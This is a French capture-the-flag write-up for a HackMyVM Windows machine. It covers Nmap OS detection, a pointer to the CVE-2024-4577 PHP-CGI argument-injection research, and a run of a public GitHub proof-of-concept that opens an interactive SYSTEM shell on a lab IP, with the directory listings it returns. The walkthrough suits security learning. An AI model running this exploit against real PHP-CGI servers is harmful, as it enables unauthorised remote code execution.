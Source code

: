 ```console
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 397.22 seconds
```

Pas grand-chose à en tirer. On peut relancer Nmap cette fois avec les options `-O --osscan-guess` :

```
Running: Microsoft Windows 2022
OS CPE: cpe:/o:microsoft:windows_server_2022
OS details: Microsoft Windows Server 2022
```

Il existe bien quelques exploits pour ce système, mais ils nécessitent par exemple Exchange, SMB accessible ou IIS, etc.

La description du CTF sur HackMyVM mentionnait Orange Tsai, un blog par la team sécu de Orange.

Sur le blog, on trouve cet article :

[CVE-2024-4577 - Yet Another PHP RCE: Make PHP-CGI Argument Injection Great Again! | Orange Tsai](https://blog.orange.tw/posts/2024-06-cve-2024-4577-yet-another-php-rce/)

J'ai la flemme de démarrer la VM Kali Linux, sans compter qu'avec la VM Windows qui tourne la RAM va en prendre un coup.

J'ai trouvé cet exploit sur Github :

[GitHub - K3ysTr0K3R/CVE-2024-4577-EXPLOIT: A PoC exploit for CVE-2024-4577 - PHP CGI Argument Injection Remote Code Execution (RCE)](https://github.com/K3ysTr0K3R/CVE-2024-4577-EXPLOIT)

Il fonctionne en spécifiant la page d'index :

```console
$ python CVE-2024-4577.py -u http://192.168.242.131/

 ██████ ██    ██ ███████       ██████   ██████  ██████  ██   ██       ██   ██ ███████ ███████ ███████
██      ██    ██ ██                 ██ ██  ████      ██ ██   ██       ██   ██ ██           ██      ██
██      ██    ██ █████   █████  █████  ██ ██ ██  █████  ███████ █████ ███████ ███████     ██      ██ 
██       ██  ██  ██            ██      ████  ██ ██           ██            ██      ██    ██      ██  
 ██████   ████   ███████       ███████  ██████  ███████      ██            ██ ███████    ██      ██  

Coded By: K3ysTr0K3R

[*] Checking if the target is vulnerable
[+] The target http://192.168.242.131/ is vulnerable
[+] Initial command output: nt authority\system
[*] Initiating interactive shell
[+] Interactive shell opened successfully
Shell> dir c:\\users\\
Volume in drive C has no label.
 Volume Serial Number is DCC1-9F46

 Directory of c:\users

12/02/2025  08:38    <DIR>          .
12/02/2025  08:42    <DIR>          admin
11/12/2024  09:45    <DIR>          Administrator
11/12/2024  15:23    <DIR>          Public
               0 File(s)              0 bytes
               4 Dir(s)  55?328?358?400 bytes free
Shell> dir c:\\users\\Administrator\\Desktop
Volume in drive C has no label.
 Volume Serial Number is DCC1-9F46
```